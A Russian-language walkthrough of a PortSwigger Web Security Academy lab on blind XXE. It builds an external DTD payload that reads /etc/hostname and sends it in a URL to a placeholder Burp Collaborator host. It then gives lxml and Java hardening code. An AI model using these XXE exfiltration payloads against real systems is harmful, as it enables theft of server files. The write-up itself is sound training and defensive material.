





# Lab: Blind XXE with out-of-band data exfiltration via malicious external DTD

**Платформа:** PortSwigger Web Security Academy
**Категория:** XXE (XML External Entity)
**Сложность:** Practitioner
**Дата:** 2025-07-29

---

## TL;DR
Функция «Check stock» парсит XML, но не отражает результат.
Обычную параметрическую сущность (`%file; %exfil;` в одном DOCTYPE)
использовать нельзя — парсер запрещает вложенность сущностей
во **внутреннем** DTD-подмножестве. Обход — вынести всю логику
чтения файла и сборки эксфильтрационного запроса во **внешний**
вредоносный DTD-файл, размещённый на exploit-сервере. Внутри
внешнего DTD это ограничение не действует, и парсер сам отправляет
содержимое `/etc/hostname` на Burp Collaborator в параметре URL.

---

## Разведка

### Шаг 1 — Анализ запроса «Check stock»

На странице товара нажала **Check stock**, перехватила запрос в Burp:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Ответ ничего не отражает — данные из XXE напрямую не увидеть,
нужен внеполосный канал утечки.



### Шаг 2 — Почему не работает связка в одном DOCTYPE

Попытка в лоб:

```xml
<!DOCTYPE stockCheck [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % exfil SYSTEM "http://COLLABORATOR/?x=%file;">
  %exfil;
]>
```

Не работает: спецификация XML запрещает использовать одну
параметрическую сущность внутри объявления другой, если обе
находятся во **внутреннем** DTD-подмножестве (том, что прямо
в присланном XML). Значит логику нужно перенести туда,
где это ограничение не действует — во внешний DTD-файл.

---

## Эксплуатация

### Шаг 3 — Подготовка Collaborator payload

Перешла на вкладку **Collaborator** в Burp Suite Professional →
**Copy to clipboard**, чтобы получить уникальный поддомен для
текущей сессии.




### Шаг 4 — Составление вредоносного внешнего DTD

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

Что делает каждая строка:

```
%file   — читает содержимое /etc/hostname в параметрическую сущность

%eval   — значение этой сущности — ТЕКСТ, описывающий ещё одно
          объявление сущности (%exfil), в которое уже подставлен %file.
          &#x25; — закодированный символ "%", нужен, чтобы он
          не разворачивался как сущность раньше времени, а попал
          в итоговый текст буквально (отложенная подстановка)

%eval;  — вызываем сущность → парсер разворачивает её значение
          как НОВОЕ объявление сущности %exfil, в URL которой уже
          "зашито" содержимое файла

%exfil; — вызываем новую сущность → парсер, чтобы её получить,
          сам делает HTTP-запрос на Collaborator с содержимым
          файла в параметре ?x=
```

Этот файл сохранила локально как `exploit.dtd`, вставив в него
свой Collaborator-поддомен.


### Шаг 5 — Размещение DTD на exploit-сервере

Нажала **Go to exploit server** → вставила содержимое `exploit.dtd`
в тело файла → **Store** → **View exploit**, чтобы получить
итоговый публичный URL файла.



### Шаг 6 — Формирование запроса к лабе

Вернулась к перехваченному запросу **Check stock**, вставила
внешнюю сущность-ссылку на свой DTD между XML-декларацией
и элементом `stockCheck`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % xxe SYSTEM "https://EXPLOIT-SERVER-ID.exploit-server.net/exploit.dtd">
  %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Здесь `%xxe` — единственная параметрическая сущность во
внутреннем DTD, ссылка на внешний файл, поэтому запрет на
вложенность её не касается. Вся "запрещённая" логика (`%file`,
`%eval`, `%exfil`) исполняется уже внутри внешнего DTD, где
это разрешено.



Отправила запрос через Burp Repeater.

### Шаг 7 — Проверка эксфильтрации

Перешла на вкладку **Collaborator** → **Poll now**.

```
Ожидаемые взаимодействия:
DNS/HTTP — запрос за самим exploit.dtd с exploit-сервера
HTTP     — запрос вида GET /?x=СОДЕРЖИМОЕ_HOSTNAME
           на Collaborator-поддомен
```

В HTTP-запросе на Collaborator в параметре `x=` увидела
содержимое файла `/etc/hostname` — лаба решена.




---

## Итог

```
Проблема: ответ приложения не отражает результат парсинга
          → нужен внеполосный канал для получения данных

Проблема: спецификация XML не даёт вложить одну параметрическую
          сущность в значение другой внутри внутреннего DTD
          → простую связку %file → %exfil в одном DOCTYPE не собрать

Обход:    вынести связку %file / %eval / %exfil во внешний
          DTD-файл на exploit-сервере — там это ограничение
          не действует
          → внутренний DOCTYPE лабы содержит только ссылку
            на внешний DTD (%xxe SYSTEM "URL")
          → парсер загружает внешний DTD и сам выполняет
            в нём чтение файла + отправку на Collaborator
```

### Почему нужен именно &#x25; вместо простого %

```
Если написать % напрямую внутри значения %eval:
→ парсер попытается развернуть его как сущность
  СРАЗУ, в момент объявления %eval — а нужной сущности
  ещё не существует → ошибка / некорректный DTD

&#x25; — числовая ссылка на символ "%":
→ не разворачивается как начало имени сущности,
  просто передаётся как символ в итоговый текст
→ становится "живым" % только после того, как %eval;
  уже вызвана и её значение подставлено как новый
  фрагмент DTD → отложенное объявление %exfil
```

---

## Защита

```python
# УЯЗВИМО — lxml по умолчанию резолвит сущности и подгружает внешний DTD:
from lxml import etree
parser = etree.XMLParser()
tree = etree.parse(request_body, parser)

# БЕЗОПАСНО — полностью отключить DTD, сущности и сеть:
parser = etree.XMLParser(
    resolve_entities=False,
    no_network=True,
    dtd_validation=False,
    load_dtd=False,
)
tree = etree.parse(request_body, parser)
```

```java
// УЯЗВИМО — DocumentBuilderFactory по умолчанию обрабатывает DOCTYPE
// и способен подгружать внешние DTD:
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

// БЕЗОПАСНО — запретить DOCTYPE и внешние сущности полностью:
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

Дополнительно:
- Не поддерживать `DOCTYPE`/DTD во входящем XML, если это не
  требуется бизнес-логикой — большинству REST/SOAP-эндпоинтов
  он не нужен вовсе
- Явно запрещать загрузку **внешних** DTD (`load_dtd=False`,
  `external-parameter-entities=false`) — это перекрывает именно
  тот вектор, что использован в этой лабе
- Ограничивать исходящий сетевой доступ сервера (egress-фильтрация)
  до known-hosts, чтобы даже успешный XXE не смог достучаться
  до произвольного домена атакующего
- Мониторить исходящие DNS/HTTP запросы от бэкенд-сервисов —
  сам факт такого запроса уже сигнал компрометации парсера